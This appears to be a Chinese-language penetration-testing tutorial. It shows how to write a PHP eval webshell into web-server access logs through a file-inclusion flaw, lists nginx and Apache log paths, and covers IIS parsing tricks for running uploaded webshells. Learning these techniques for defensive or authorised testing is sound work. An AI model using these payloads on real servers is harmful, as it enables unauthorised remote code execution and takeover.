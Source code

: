 服务器使用了更强大的防护机制，不仅检查文件后缀，还对文件内容进行了严格校验，只要包含恶意代码，一律拒绝上传，这样的话就无法通过上传方式执行WebShell获取服务器权限了，但是，如果服务器存在文件包含漏洞，可以直接包含恶意代码，将代码写入日志文件，再包含日志文件执行WebShell。  
```
https://example.com/index.php?file=<?php @eval($_POST[123]); ?>

```  
  
如果在浏览器包含执行，浏览器会把特殊符号进行URL编码，可以通过Burp发送。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KpY8uRYvbC8DjUicBgroYpZjemG4hfvv9xgqu6taPIl7iaibLa3g5RbZ09fLWfHdK7OY5MFsPibZLqiaHfNjMbVtrHA/640?wx_fmt=png&from=appmsg "")  
  
400的原因是包含的文件不存在，查看日志文件，木马成功写入。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/KpY8uRYvbC8DjUicBgroYpZjemG4hfvv9vqCuFUuL7gwSvWC3e7sib2lbuAo978V9cT9DAgcibh59QNiaS4vWQuV2g/640?wx_fmt=png&from=appmsg "")  
  
再包含日志文件就可以执行WebShell了，默认访问日志文件路径参考：  
```
nginx：
/var/log/nginx/access.log

apache：
/var/log/apache2/access.log
/var/log/httpd/access_log

```  
##  解析漏洞   
  
从客户端发送请求，到数据库收到请求，这中间经过的程序都叫中间件，而解析漏洞主要说的是Web服务应用程序，也就是IIS、Apache、Nginx等等，这里就先简单讲一下关于这三个中间件的解析漏洞。  
### IIS  
  
IIS分低版本（IIS 5.x-IIS 6.x）和高版本（IIS 7.x及以上），低版本只能解析asp的WebShell。方法如下：  
  
目录解析：  
  
服务器会把后缀为.asp文件夹下的文件，都按asp文件解析执行，如下：  
```
https://example.com/upload/test.asp/test.jpg

```  
  
如果上传路径可控，可以添加一个以.asp为后缀的文件夹，把图片马放到该目录下上传，访问执行WebShell。  
  
文件解析：  
  
之前将混淆后缀的时候讲到过，就是在后缀后面加个分号(;)在跟一个合法后缀，如下：  
```
https://example.com/upload/test.asp;.jpg

```  
  
解析的时候分号(;)代表结束，所以后面的内容不会解析，解析文件就成了test.asp。  
  
格式解析：  
  
有些后缀服务器也会当作asp解析，比如.asa、cer、cdx等等，具体可以查看ISAPI扩展。  
```
https://example.com/upload/test.cer

```  
  